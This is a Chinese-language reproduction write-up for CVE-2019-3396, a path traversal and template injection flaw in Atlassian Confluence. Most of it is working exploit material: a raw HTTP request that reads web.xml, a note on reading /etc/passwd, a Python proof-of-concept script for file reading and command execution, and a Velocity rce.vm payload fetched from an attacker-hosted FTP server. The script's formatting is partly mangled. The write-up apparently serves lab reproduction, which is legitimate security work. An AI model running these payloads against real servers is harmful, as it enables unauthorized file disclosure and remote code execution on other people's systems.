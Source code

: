 ```yaml
---
title: （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
id: zhfly2854
---
```


# （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞

## 一、漏洞简介

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

## 二、漏洞影响

```
Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

Confluence 6.6.* < 6.6.12

Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

Confluence 6.12.* < 6.12.3

Confluence 6.13.* < 6.13.3 `Confluence 6.14.* < 6.14.2` 
```

## 三、复现过程

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176 `{“contentId”:“786458”,“macro”:{“name”:“widget”,“body”:"",“params”:{“url”:“[https://www.viddler.com/v/23464dc6",“width”:“1000”,“height”:“1000”,"_template":"../web.xml](https://www.viddler.com/v/23464dc6%22,%22width%22:%221000%22,%22height%22:%221000%22,%22_template%22:%22../web.xml)”}}}` 
```

![image](../img/9adbb4c51d996229a3c6fd7449565385.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![image](../img/6aded82af571019993be9738f83e3348.png)

### poc

> 首先需要一台外网的服务器
> 
> ```
> 1.使用FTP加载vm文件  
> 2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
> 3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami" 
> ```

> CVE-2019-3396.py

```
# -*- coding: utf-8 -*-
import re
import sys
import requests

def _read(url):

result = {}

# filename = “…/web.xml”

filename = ‘file:////etc/group’

```
paylaod = url + "/rest/tinymce/1/macro/preview"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
    "Referer": url + "/pages/resumedraft.action?draftId=12345&amp;draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&amp;",
    "Content-Type": "application/json; charset=utf-8"
}
data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
r = requests.post(paylaod, data=data, headers=headers)
# print r.content
if r.status_code == 200 and "wiki-content" in r.text:
    m = re.findall('.*wiki-content"&gt;n(.*)n            &lt;/div&gt;n', r.text, re.S)

return m[0] 
```

def _exec(url,cmd):

result = {}

filename = “”

```
paylaod = url + "/rest/tinymce/1/macro/preview"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
    "Referer": url + "/pages/resumedraft.action?draftId=12345&amp;draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&amp;",
    "Content-Type": "application/json; charset=utf-8"
}
data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
r = requests.post(paylaod, data=data, headers=headers)
# print r.content
if r.status_code == 200 and "wiki-content" in r.text:
    m = re.findall('.*wiki-content"&gt;n(.*)n            &lt;/div&gt;n', r.text, re.S)

return m[0] 
``` `if **name** == ‘**main**’:

url = sys.argv[1]

cmd = sys.argv[2]

print _exec(url,cmd)` 
```

> rce.vm

```
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
    $scan.next()
#end 
```

## 参考链接

> https://vulhub.org/#/environments/confluence/CVE-2019-3396/